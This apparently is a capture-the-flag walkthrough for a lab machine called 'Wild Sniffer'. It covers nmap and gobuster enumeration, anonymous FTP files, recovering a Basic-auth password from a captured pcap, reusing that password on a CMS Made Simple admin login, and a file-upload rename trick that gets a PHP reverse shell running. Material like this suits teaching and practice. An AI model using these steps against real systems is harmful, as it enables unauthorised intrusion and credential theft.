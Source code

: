 # Exploitation Guide for Wild Sniffer

## Enumeration

We start the enumeration process with a simple Nmap scan:
```
nmap 13.72.119.96

Starting Nmap 7.60 ( https://nmap.org ) at 2020-10-01 12:28 IST
Nmap scan report for sniffer.com (13.72.119.96)
Host is up (0.28s latency).
Not shown: 995 closed ports
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
```
And now a Full port Nmap scan:
```
nmap -p- 13.72.119.96

Starting Nmap 7.60 ( https://nmap.org ) at 2020-10-01 12:29 IST
Nmap scan report for sniffer.com (13.72.119.96)
Host is up (0.28s latency).
Not shown: 65524 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
21212/tcp open     unknown
```
We find port 80 is open and visit it in our browser as a first step. On the page we find apache default home page.
So we move towards the next port

```

```


Port 21212 is still unknown so we start a version scan:
```
nmap -sV -p21212 13.72.119.96

Starting Nmap 7.60 ( https://nmap.org ) at 2020-10-01 13:09 IST
Nmap scan report for sniffer.com (13.72.119.96)
Host is up (0.28s latency).

PORT      STATE SERVICE VERSION
21212/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix
```
Visiting the FTP from browser
```
ftp://13.72.119.96:21212/
```
We find two files
```
Index of ftp://13.72.119.96:21212/
Up to higher level directory
Name 	                    Size 	        Last Modified
File:intern-roles.txt      1 KB       01/10/20 	11:51:00 IST
File:note.txt              1 KB 	    01/10/20 	11:51:00 IST
```
Reading note.txt we know there are subdomains
```
Hey dave, 
I wont be available for the next 2 days. Please inform the new interns about their roles and assigned work.
Check the file i've uploaded for intern names and roles. They have been working on some web based networking monitoring tool for fun. Please make sure you take down any subdomains they might have created for their tool.
Regards,
Tom
```
Reading intern-roles.txt we get usernames and domain name
```
sentinal@sniffer.com : Firewall Manager
dave@snifer.com : System Admin
zorba@sniffer.com : CMS Manager
tom@sniffer.com : Network Manager
goku@sniffer.com : Developer
```
Adding sniffer.com in /etc/hosts
```
13.72.119.96    sniffer.com 
```
Visitng sniffer.com we come to know it is running cmsms 2.2.5 that has Authenticated RCE.
To find more subdomains we start a subdomain bruteforce scan and get a new subdomain.
```
./gobuster vhost -u http://sniffer.com -w /opt/subdomains.lst

Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Domain:     sniffer.com
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /opt/subdomains.lst
===============================================================
2020/10/01 12:23:05 Starting gobuster
===============================================================
Found: monitor.sniffer.com
===============================================================
2020/10/01 12:23:10 Finished
===============================================================
```
Adding another subdomain into /etc/hosts
```
13.72.119.96    sniffer.com monitor.sniffer.com
```
Visiting monitor.sniffer.com we recall the note.txt we found earlier, in which it was mentioned that interns were developing some network monitoring tools.
So we start the directory bruteforce scan.
```
kunal@Kunal:/opt$ ./gobuster dir -u http://monitor.sniffer.com -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://monitor.sniffer.com
[+] Threads:        10
[+] Wordlist:       /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/01 13:23:23 Starting gobuster
===============================================================
/files (Status: 200)
Progress: 284 / 220561 (0.13%)
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/10/01 13:23:32 Finished
===============================================================
```
We find a hidden directory /files.

Vsiting /files we find there are four network monitoring tools installed.
```
1) Get Date
2) Arp Poisoning
3) DNS Spoof
4) Man in the middle 
```
Selecting Option 1, we get current date

Selecting Option 2, arpspoof runs but gets blocked by firewall

Selecting Option 3, dnsspoof runs but gets blocked by firewall

Selecting Option 4, MITM attack starts and we get a capture.pcap file

Opening capture.pcap file in wireshark, doing Follow --> Stream on Packet number 10 we get
```
GET /statuses/replies.xml HTTP/1.1
User-Agent: SentinalNetwork/920
Cookie: _twitter_sess=Jatti_Reje_23ad2lkIiVmZGQ2ODc5MTMwMWFhOTFiMWExZDViZmQwMGEz%250AOWNkMyIKZmxhc2hJQzonQWN0aW9uQ29udHJvbGsdsdo6Rmxhc2g6OkasasasSGFzaHsABjoKQHVzZWR7AA%253D%253D--ea12e7asasas02cd7e3f972c2b4414a97f657
Accept: */*
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Authorization: Basic Z29rdTpkcmFnb25iYWxsc3VwZXI=
Connection: keep-alive
Host: twitter.com
```
Using base64 decoding to decode Authoization Basic
```
echo -n Z29rdTpkcmFnb25iYWxsc3VwZXI= |base64 -d

goku:dragonballsuper
```
We would use those creds to login into sniffer.com but get invalid creds
```
http://sniffer.com/admin/login.php
```
Recalling the intern-roles.txt file earlier that had lot of users, we try to login into those users and we get valid cred
```
tom:dragonballsuper
```
After login, we select content -> File Manager

Here we can try to upload our php reverse shell, but as it would block php files by default, we would rename our file to rev.txt and upload.

After it gets uploaded, we would select our file "rev.txt" and click on copy and set new Target File name: as rev.php.

Execute rev.php and get a Reverse Shell
